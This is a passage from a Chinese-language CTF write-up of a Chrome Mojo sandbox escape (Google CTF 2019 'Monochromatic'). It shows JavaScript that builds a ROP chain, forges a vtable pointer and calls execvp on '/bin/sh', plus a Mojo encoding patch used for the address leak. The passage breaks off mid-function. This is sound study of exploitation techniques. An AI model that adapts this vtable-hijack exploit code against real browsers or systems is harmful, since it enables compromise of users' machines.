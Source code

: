 最后构造`ROP`，伪造虚表指针，触发虚表函数。`ROP`这里的构造可以提一句的是，可以利用`execvp`函数来最终执行可执行程序，这样就不需要构造`rsi`以及`rdx`寄存器来，可以用命令`objdump -d -j '.plt' ./src/binary/chrome | grep execvp`来查看偏移。

```js
 // build rop chain
    let binshAddr = leakHeapAddr+0x68n;
    let ropBuffer = new ArrayBuffer(ropBufferSize);
    let ropData8 = new Uint8Array(ropBuffer).fill(0x41);
    ropDataView = new DataView(ropBuffer);

    // person getName's offset in vtable is 0x10;
    ropDataView.setBigInt64(0x10,xchgRaxRsp,true);

    ropDataView.setBigInt64(0x0, popRsi, true);
    ropDataView.setBigInt64(0x8, popRsi, true);

    ropDataView.setBigInt64(0x18, popRdi, true);
    ropDataView.setBigInt64(0x20, binshAddr, true);
    ropDataView.setBigInt64(0x28, popRsi, true);
    ropDataView.setBigInt64(0x30, 0n, true);
    ropDataView.setBigInt64(0x38, 0n, true);
    ropDataView.setBigInt64(0x40, popRdx, true);
    ropDataView.setBigInt64(0x48, 0n, true);
    ropDataView.setBigInt64(0x50, popRdx, true);
    ropDataView.setBigInt64(0x58, 0n, true);
    ropDataView.setBigInt64(0x60, execvp, true);
    ropDataView.setBigInt64(0x68,0x68732f6e69622fn,true);  // /bin/sh
    // ropDataView.setBigInt64(0x68, 0x6f6e672f6e69622fn,true);  // /bin/gno
    // ropDataView.setBigInt64(0x70, 0x75636c61632d656dn,true);  // me-calcu
    // ropDataView.setBigInt64(0x78, 0x726f74616cn,true);  // lator\x00

    let ropStr = arr2Str(ropData8);

    // set fake vtable here
    await triggerPersonPtr.setName(ropStr);

    // change triggerPersonPtr's vtable to fake vtable address
    evilData = setUint64(leakData, 0, leakHeapAddr);
    await evil.setName(evilData);

    //  trigger rop
    console.log((await triggerPersonPtr.getName()).name);
```

成功弹出计算器。

![poc](https://raw.githubusercontent.com/f1tao/f1tao.github.io/master/images/2022-12-31-沙箱逃逸之google-ctf-2019-Monochromatic-writeup/poc.png)

要提一点的是在泄露虚表的时候，可能是因为`mojo`的编码问题，直接读出来的地址不对，需要对数据进行编码，加上下面的代码就可以了，原因我现在还搞不懂，先放着。

```js
mojo.internal.Buffer.prototype.setUint64 = function(offset, value) {
    value = BigInt(value);
    let multipliter = 0x100000000n;
    var hi = Number(value / multipliter);
    var low = Number(value % multipliter);
    this.dataView.setInt32(offset, low, true);
    this.dataView.setInt32(offset + 4, hi, true);
    return;
};

mojo.internal.encodeUtf8String = function(str, outputBuffer) {
    const utf8Buffer = str.split('').map(char => char.charCodeAt(0));
    if (outputBuffer.length < utf8Buffer.length)
        throw new Error("Buffer too small for encodeUtf8String");
    outputBuffer.set(utf8Buffer);
```